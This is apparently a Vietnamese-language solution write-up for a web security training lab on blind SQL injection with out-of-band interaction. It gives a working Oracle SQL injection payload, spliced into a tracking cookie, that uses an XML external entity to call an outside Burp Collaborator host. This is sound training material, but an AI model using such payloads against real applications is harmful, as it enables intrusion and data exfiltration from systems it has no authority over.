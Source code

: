 # **Lab: Blind SQL injection with out-of-band interaction**

> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.  
> The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.  
> To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

# **Solution**

Sau khi tải lại trang, ta có TrackingId trong cookie:

```
Cookie: TrackingId=UGb4X7Ro9ExswzYn; session=MAGhyCUTiO4LpcJ3blfbgKUZlbnSvWBG
```

Tiếp theo mở BurpsuitePro (Burp Collaborator chỉ hoạt động trên phiên bản pro).

Mở Burp Collaborator, chọn start để tạo một Burp Collaborator Subdomain. Và copy subdomain vừa tạo.  
![alt text](image.png)

Gửi một request chứa `TrackingId` tới Repeater.  
Chúng ta có cheatsheet sau:  
![alt text](image-1.png)

Và có subdomain: `w30oltv5s0z7cg63u7ly9snopfv6jy7n.oastify.com`

Thay subdomain vào mẫu truy vấn:

```
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http:/w30oltv5s0z7cg63u7ly9snopfv6jy7n.oastify.com/"> %remote;]>'),'/l') FROM dual
```

Chỉnh sửa cho phù hợp để ghép với câu truy vấn ứng dụng:

```
' || SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http:/w30oltv5s0z7cg63u7ly9snopfv6jy7n.oastify.com/"> %remote;]>'),'/l') FROM dual || '
```

Thêm vào `TrackingId` và encode rồi gửi:
![alt text](image-2.png)

Quay lại trang `Burp Collaborator`. Nếu không thấy tự động Pull thì bấm `Pull now` kết quả về:  
![alt text](image-3.png)

Done~~
